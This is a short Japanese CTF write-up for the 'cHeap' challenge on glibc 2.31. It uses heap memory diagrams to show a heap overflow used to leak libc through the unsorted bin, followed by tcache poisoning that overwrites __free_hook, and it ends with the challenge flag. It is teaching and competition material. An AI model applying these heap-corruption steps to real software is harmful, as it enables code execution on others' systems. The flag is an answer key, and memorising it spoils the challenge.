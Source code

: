 # cHeap  
libc 2.31  
ヒープオーバーフローとか  
### libc leak  
ヒープオーバーフローでサイズを書き換えて0x420のチャンクをfree  
Unsortedにつながり`show`でリークできる  
```
0x0000000000000000  0x0000000000000021
0x0000000000000000  0x0000000000000000  
0x0000000000000000  0x00000000000003f1      <----
0x0000000000000000  0x0000000000000000          |
0x0000000000000000  0x0000000000000000          |
                　～                                合わせて0x420  
0x0000000000000000  0x0000000000000031          |
0x0000000000000000  0x0000000000000000          |
0x0000000000000000  0x0000000000000000          | 
0x0000000000000000  0x0000000000000000      <----
0x0000000000000000  0x0000000000000031      <- 統合防止  

                   ↓

0x0000000000000000  0x0000000000000021
0x4141414141414141  0x4141414141414141  
0x4141414141414141  0x0000000000000421      
0x0000000000000000  0x0000000000000000      <- ここをfree   
0x0000000000000000  0x0000000000000000          
                　～                                 
0x0000000000000000  0x0000000000000031          
0x0000000000000000  0x0000000000000000          
0x0000000000000000  0x0000000000000000           
0x0000000000000000  0x0000000000000000      
0x0000000000000000  0x0000000000000031      
```

### Overwrite `__free_hook`  
0x40のチャンクのヒープオーバーフローで真下の0x50のチャンクのサイズを0x61に書き換えてfree  
0x60のtcacheに2つのチャンクがつながる  
```
0x0000000000000000  0x0000000000000041
0x0000000000000000  0x0000000000000000  
0x0000000000000000  0x0000000000000000  
0x0000000000000000  0x0000000000000000
0x0000000000000000  0x0000000000000051       <- ここを0x61に書き換えてfree
0x0000000000000000  0x0000000000000000      
0x0000000000000000  0x0000000000000000
0x0000000000000000  0x0000000000000000  
0x0000000000000000  0x0000000000000000
0x0000000000000000  0x0000000000000061
```
再び0x40のチャンクを確保してヒープオーバーフローでfdを`__free_hook`に書き換える  
`malloc(0x58)`を2回すると`__free_hook`が返る  
```
0x0000000000000000  0x0000000000000041
0x4141414141414141  0x4141414141414141  
0x4141414141414141  0x4141414141414141  
0x4141414141414141  0x4141414141414141
0x4141414141414141  0x0000000000000061       
    __free_hook     0x0000000000000000      
0x0000000000000000  0x0000000000000000
0x0000000000000000  0x0000000000000000  
0x0000000000000000  0x0000000000000000
0x0000000000000000  0x0000000000000061
```
flag: `TSGCTF{Heap_overflow_is_easy_and_nice_yeyey}`  
